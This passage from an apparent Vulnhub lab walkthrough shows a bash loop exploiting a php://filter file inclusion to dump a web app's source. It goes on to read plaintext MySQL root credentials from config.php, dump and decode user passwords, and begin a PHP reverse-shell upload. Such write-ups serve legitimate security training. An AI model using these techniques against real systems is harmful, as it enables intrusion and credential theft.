 ```Bash phpscript
FILES=('index' 'login' 'upload' 'config')
for paste_option in "${FILES[@]}"; do
	echo page=$paste_option successfully pulled
	curl -s http://192.168.80.131/?page=php://filter/convert.base64-encode/resource="$paste_option" > $paste_option.out
done
```

The result of this is the source code for all of the files that we pulled down, pictured below is the source for the `config.php` file.  

> <?php
>
> $server = "localhost";
>
> $username = "root";
>
> $password = "H4u%QJ_H99";
>
> $database = "Users";
>
> ?>

This appears to be the login credentials for the MySQL database running on port 3306, obviously now we can login to the MySQL database that is running.

```Bash mysql
mysql -u root -p -h 192.168.80.131 Users
```

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\init\mysqldb.png)

Logging into the Users table as specified in the retrieved `config.php` file lets us have full access to the database, and we can print out all the details of the users.

```SQL users
SELECT * FROM Users;
```

![](C:\Users\mcAnderson\Documents\Intern\Vulnhub\init\users.png)

Gives us the Usernames, and Base64 encoded passwords of all of the users in the database.  We can now presumably use these details to login to the `Login.php` service running on the web server.  But first we need to decode the passwords, and this can be done in the same way as before.

```Bash base64decode
echo Sld6WHVCSkp0eQ== | base64 -d > kent_pass.txt
```

Using the login details from above, we can login to the web service as any of the users in the table, but Kent is already in my clipboard so we'll use him.

#### Upload Service Exploitation

Navigating the the Upload page after logging in reveals a very simple uploading form, provide a file, and upload to the server.  After attempting to upload a simple reverse shell PHP file, we are introduced to an error `Not allowed extension, please upload images only.`  So there are most likely some file checks going on behind the scenes, luckily, from before we have the source code for this file.
